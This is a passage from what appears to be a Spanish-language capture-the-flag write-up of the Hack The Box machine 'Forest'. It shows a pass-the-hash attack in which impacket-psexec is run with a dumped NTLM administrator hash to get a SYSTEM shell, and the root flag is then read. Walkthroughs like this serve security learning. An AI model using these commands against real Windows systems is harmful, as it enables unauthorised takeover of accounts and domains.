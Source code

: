 ¡Genial! Hemos logrado eliminar todos los hashes. Ahora podemos abusar de SMB con `impacket-psexec` y hacer un PassTheHash.

>En un ataque PtH, un atacante utiliza el hash NTLM de la contraseña de un usuario para autenticarse sin conocer la contraseña real.
PsExec admite esto aprovechando la capacidad de Windows para autenticarse a través de hashes NTLM al interactuar con servicios como SMB.

```bash
┌──(s3n㉿kali)-[~/Desktop/Box/recon]
└─$ impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 Administrator@10.10.10.161  
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 10.10.10.161.....
[*] Found writable share ADMIN$
...

C:\Windows\system32> whoami
nt authority\system

```

¡Genial! Leamos la bandera root y podremos considerar que **Forest** está pwned!

```powershell
C:\Windows\system32> type C:\Users\Administrator\Desktop\root.txt
767c4284...1c365ef6
```